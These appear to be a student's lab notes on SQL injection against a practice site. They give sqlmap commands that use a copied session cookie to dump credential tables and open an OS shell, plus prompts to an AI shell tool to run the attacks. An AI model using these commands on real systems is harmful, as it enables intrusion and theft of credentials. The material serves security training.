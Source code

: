  2025-08-06 21:46

Status:

Tags:

# SQL injection
Structured Query Language (SQL) is a textual language used by a database server. SQL commands used to perform operations on the database include ``INSERT, SELECT, UPDATE, and DELETE``. These commands are used to manipulate data in the database server.

SQL injection is a technique used to take advantage of un-sanitized input vulnerabilities to pass SQL commands through a web application for execution by a backend database
-  SQL injection is a basic attack used to either gain unauthorized access to a database or retrieve information directly from the database 
- It is a flaw in web applications and not a database or web server issue 
- [ ] do theory 
# Lab 1: Perform SQL Injection Attacks
## Task 1: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

-  open parrot 
1. visit ``http://www.moviescope.com`` 
	- login as ``sam:test``
2. click view profile 
	- inspect the page -> console 
	- type ``document.cookie  `` 
	- copy cookie 
3. run SQLmap
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="A[cookie value that you copied in Step#7]" --dbs ``
	- type y for **Do you want to skip test payloads**
4. you need to choose a database and use sqlmap to retrieve the tables in the database
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables``
5.  you need to retrieve the table content of the column **User_Login**.
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump ``
	- this will give you users list and their passwords 
6. to get shell 
		- `` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell ``  type y
	- to get host info 
		- ``hostname ``
	- to view a list of tasks that are currently running on the target system.
		- ``TASKLIST ``
	- to view what else command you perform 
		- ``help ``

# Lab 2: Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

## Task 1: Detect SQL Injection Vulnerabilities using OWASP ZAP

- open windows server 2019 and search zap 
1. start **OWASP ZA**
2. select **Automated Scan**
3. enter http://www.moviescope.com
4. under alert see SQL injection 
5. and MS SQL 
	- done  


# Lab 3: Perform SQL Injection using AI
1. `` **sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases"** ``
2. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the tables pertaining to moviescope database"``
3. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and retrieve User_Login table contents from moviescope database"```
## Exploit the web application (page_id)
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap. 
3. Now open the burp and check the input parameters and intercept on then type some as`` “1 OR ANY TEXT”`` you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4.  ``sqlmap -r <txt file from burpsuite> --dbs`` 
5.    `` sqlmap -r <txt file from burpsuite> -D <database name> --tables``
6. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns``
7. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all ``
8. ``then login and do the url parameter change page_id=1 to page_id=84 ``

- [ ]  make notes for using AI sql  
      
- [ ]  perform sql injection 
### References

